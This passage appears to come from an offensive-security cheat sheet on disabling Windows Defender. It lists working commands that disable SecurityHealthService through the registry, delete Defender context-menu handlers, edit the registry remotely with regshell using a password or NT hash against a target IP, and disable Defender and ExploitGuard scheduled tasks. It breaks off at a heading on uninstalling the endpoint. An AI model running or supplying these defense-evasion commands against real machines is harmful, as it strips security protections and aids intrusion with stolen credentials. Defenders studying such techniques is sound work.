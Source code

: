 #### 1.3.2.1 - Command Prompt

```
C:\> reg.exe add "HKLM\System\CurrentControlSet\Services\SecurityHealthService" /v "Start" /t REG_DWORD /d "4" /f
```

### 1.3.3 - Remove Windows Defender Context Menu

#### 1.3.3.1 - Command Prompt

```
C:\> reg.exe delete "HKCR\*\shellex\ContextMenuHandlers\EPP" /f

reg.exe delete "HKCR\Directory\shellex\ContextMenuHandlers\EPP" /f

reg.exe delete "HKCR\Drive\shellex\ContextMenuHandlers\EPP" /f
```

#### 1.3.3.2 - Regshell

TODO: Complete this

```
$ regshell -U "<domain>/<username>%<password>" -R <IP>

$ regshell -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> -R <IP>

\> predef HKEY_LOCAL_MACHINE
rmkey HKCR\Directory\shellex\ContextMenuHandlers\EPP
rmkey HKCR\Drive\shellex\ContextMenuHandlers\EPP
```

## 1.4 - Schtasks

```
C:\> schtasks.exe /change /tn "Microsoft\Windows\ExploitGuard\ExploitGuard MDM Policy Refresh" /disable

schtasks.exe /change /tn "Microsoft\Windows\Windows Defender\Windows Defender Cache Maintenance" /disable

schtasks.exe /change /tn "Microsoft\Windows\Windows Defender\Windows Defender Cleanup" /disable

schtasks.exe /change /tn "Microsoft\Windows\Windows Defender\Windows Defender Scheduled Scan" /disable

schtasks.exe /change /tn "Microsoft\Windows\Windows Defender\Windows Defender Verification" /disable
```

## 1.5 - Msiexec

### 1.5.1 - Uninstall Endpoint
